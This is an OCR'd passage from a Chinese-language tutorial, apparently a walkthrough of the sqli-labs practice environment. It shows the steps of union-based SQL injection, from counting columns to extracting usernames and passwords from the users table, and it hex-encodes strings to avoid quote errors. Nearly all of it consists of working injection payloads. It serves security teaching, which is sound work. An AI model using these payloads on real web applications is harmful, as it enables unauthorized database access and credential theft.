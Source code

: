 


---


> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?id=1 union select 1,2,3 --+
回显正常

 

?id=1 union select 1,2,3,4 --+
报错

 

 说明字段数为3
<hr/>
判断回显位
?id=-1 union select 1,2,3 --+ 




> 
<h3>3.5、第四步：暴库</h3>
?id=-1 union select 1,2,database()--+




> 
<h3>3.6、第五步：爆表名</h3>
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479--+
'security'的单引号也会导致注入报错
可以直接进行十六进制编码,或者使用database()

 


> 
<h3>3.7、第六步：爆字段</h3>
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+
'user'的单引号导致注入报错，可以直接进行十六进制编码

 




> 
<h3>3.8、第七步：爆数据</h3>
?id=-1 union select 1,2,group_concat(username,password) from security.users--+

 

